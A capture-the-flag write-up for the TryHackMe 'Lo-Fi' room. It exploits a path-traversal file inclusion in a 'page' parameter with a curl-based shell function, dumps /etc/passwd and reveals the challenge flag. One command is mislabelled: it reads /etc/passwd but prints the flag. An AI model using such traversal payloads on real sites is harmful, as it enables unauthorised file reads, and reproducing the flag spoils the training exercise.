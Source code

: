![logo](./assets/logo.png)
# Lo-Fi
[tryhackme.com/r/room/lofi](https://tryhackme.com/r/room/lofi)
*Want to hear some lo-fi beats, to relax or study to? We've got you covered!*

**Answer the questions below**

***Climb the filesystem to find the flag!***


# Solution
## Enumeration/Gather Information
The challenge name and description heavily hints towards this being vulnerable to a *Local File Inclusion*, an ***LFI**. This was also the first thing I noticed when I visited the site. The URL says I'm on `http://10.10.85.184/?page=relax.php`, and the parameter `page` is the interesting part here.

![Image of the page and the url](./assets/page-parameter.png)

## Vulnerability
This parameter most likely just points out a file and renders it, so if I traverse the file tree and point out, for example, `/etc/passwd` I can prove that I can read arbitrary files.

![Image of the LFI file-read](./assets/etc-passwd.png)

## POC-Exploit
To simplify the process of traversing the file tree and cutting away all of the "fluff" for a better user experience (better experience for me to read file) I've created this small shell-function:
```bash
lfi() {                                                                              ╶╯
    file="$1"
    curl -s "http://10.10.85.184/?page=../../../../../../../../..$file" | pup ".card-body:first-of-type"  | head -n -51 | tail -n +2
}
```

> **Explanation**:
> 1. I create a function where I pass the absolute path of the file I want to read on the target file system as an argument.
> 2. I `curl` the website with the file path and parse it using *[pup](https://github.com/ericchiang/pup)*.
> 3. I use `head` and `tail` to clean up some extra lines since I didn't feel like doing a deep-dive into parsing with `pup`.

When I now execute the following command I get the output in a much nicer format:
```bash
$ lfi "/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

## Catching the flag
So, now I can guess my way around the file-system and read files. I wonder where the flag might be? `/flag.txt`?
```bash
$ lfi "/etc/passwd"
flag{e4478e0eab69bd642b8238765dcb7d18}
```

Oh wow! I guessed correcly on the first try?! Sweet!

# Flag
**Flag:** `flag{e4478e0eab69bd642b8238765dcb7d18}`
